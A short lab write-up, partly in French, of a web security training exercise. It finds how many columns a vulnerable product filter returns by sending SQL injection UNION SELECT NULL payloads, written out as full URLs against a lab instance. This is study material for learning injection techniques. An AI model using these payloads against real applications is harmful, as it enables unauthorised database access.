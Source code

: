           DESCRIPTION
------------------------------------------------------------------------------------------------------
This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
The first step of such an attack is to determine the number of columns that are being returned by the query.
You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack
 that returns an additional row containing null values.
------------------------------------------------------------------------------------------------------

Afin de déterminer le nombre de colonnes, on peut utiliser les techniques données au sein du chapitre sur les SQLi UNION attacks.

Le premier payload abouti à une Internal server error.
https://0a9d004504574f61c09b3fbd00c200b7.web-security-academy.net/filter?category=Corporate+gifts'UNION SELECT NULL--

Il suffit d'incrémenter le nombre de NULL dans la requête jusqu'à ce que l'erreur disparaisse,
signifiant que nous sommes sur le bon nombre de colonnes :

https://0a9d004504574f61c09b3fbd00c200b7.web-security-academy.net/filter?category=Corporate+gifts'UNION SELECT NULL,NULL,NULL--

Le site répond à partir de 3 NULL, on sait donc que la database dispose de 3 colonnes.